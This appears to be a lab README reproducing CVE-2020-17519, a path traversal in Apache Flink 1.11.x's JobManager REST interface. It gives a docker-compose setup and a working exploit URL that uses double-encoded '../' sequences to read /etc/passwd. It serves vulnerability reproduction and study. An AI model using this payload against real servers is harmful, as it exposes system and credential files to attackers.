

# Apache Flink `jobmanager/logs` Path Traversal (CVE-2020-17519)

Apache Flink is an open source stream processing framework with powerful stream- and batch-processing capabilities.

A change introduced in Apache Flink 1.11.0 (and released in 1.11.1 and 1.11.2 as well) allows attackers to read any file on the local filesystem of the JobManager through the REST interface of the JobManager process.

References:

- https://github.com/apache/flink/commit/b561010b0ee741543c3953306037f00d7a9f0801
- https://nvd.nist.gov/vuln/detail/CVE-2020-17519

## Environment Setup

Execute following commands to start a Apache Flink jobmanager 1.11.2:

```
docker-compose up -d
```

After the Apache Flink is started, visit `http://your-ip:8081` to view the homepage.

## Exploit

Disclose the `/etc/passwd`:

```
http://your-ip:8081/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```


